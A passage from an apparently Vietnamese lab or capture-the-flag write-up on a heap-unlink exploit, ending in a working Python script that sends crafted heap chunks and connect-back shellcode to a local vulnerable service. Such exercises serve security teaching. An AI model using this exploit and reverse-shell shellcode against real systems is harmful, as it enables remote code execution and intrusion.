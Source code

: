 <img src="pictures/heap.png">

Tuy nhiên, bị segmentation fault ngay lần free(chunk 1), lý do:
- chunk 3 để bit cuối field: size là 0, để fake chunk trước đang free
- Khi free(chunk 1) thì hàm free() kiểm tra chunk 2 có phải vùng đang free hay không bằng cách check bit cuối field size của chunk 3. 

=> chunk 2 bị unlink nhầm => segmentation fault.

**Final attempt**

Sửa lại script, thay vì unlink backward như heap3, ta sẽ unlink forward (khi free(chunk1) sẽ unlink chunk2):

script:
```
import socket
import struct

shellcode = "\x31\xc0\x31\xdb\x50\x40\x50\x40\x50\x89\xe1\xb0\x33\x04\x33\x43\xcd\x80\x89\xc6\x31\xc0\x50\xc6\x04\x24\x7f\xc6\x44\x24\x03\x01\x66\x68\x11\x5c\x43\x66\x53\x89\xe1\xb0\x33\x04\x33\x50\x51\x56\x89\xe1\x43\xcd\x80\x31\xd2\x87\xca\xb1\x03\x89\xf3\x31\xc0\xb0\x3f\x49\xcd\x80\xb0\x3f\x49\xcd\x80\xb0\x3f\x49\xcd\x80\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x51\x89\xe1\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"

s = socket.socket()
s.connect(("127.0.0.1", 2993))

chunk1 = "FSRD" + "a"*4 + shellcode + "a"*8 + "/ROOT"

shellcode_phu = "\x68\x0c\xe0\x04\x08\xc3"
chunk2 = "FSRD" + "a"*4 + shellcode_phu + "a"*89 + "ROOT" + "/" + "a"*4 + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff" + "\x10\xd4\x04\x08" + "\x98\xe0\x04\x08"

s.send(chunk1 + chunk2 + "\n")

s.recv(1024)
s.recv(1024)
s.close()
```